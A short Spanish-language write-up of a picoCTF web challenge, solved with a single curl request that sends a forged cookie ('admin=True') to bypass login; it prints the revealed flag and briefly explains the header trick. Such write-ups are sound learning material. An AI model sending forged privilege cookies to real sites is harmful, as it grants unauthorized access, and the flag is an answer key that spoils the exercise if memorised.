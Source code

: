 ## Objetivo
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/15796/` ([link](https://jupiter.challenges.picoctf.org/problem/15796/)) or http://jupiter.challenges.picoctf.org:15796

## Pistas
- Hmm it doesn't seem to check anyone's password, except for Joe's?

## Solución
```
elyahir-picoctf@webshell:~$ curl https://jupiter.challenges.picoctf.org/problem/15796/flag -H "Cookie:username=loco;password=asdfasdfsdf;admin=True" | grep  "picoCTF"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  1312  100  1312    0     0   3663      0 --:--:-- --:--:-- --:--:--  3664
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_6edb3f5f}</code></p>
```

## Notas adicionales
- El comando curl sirve para interactuar con texto con una pagina web
- El parametro -H nos permite enviar un Header a la pagina (en este caso enviamos una cookie que diga que somos el administrador)

## Referencias

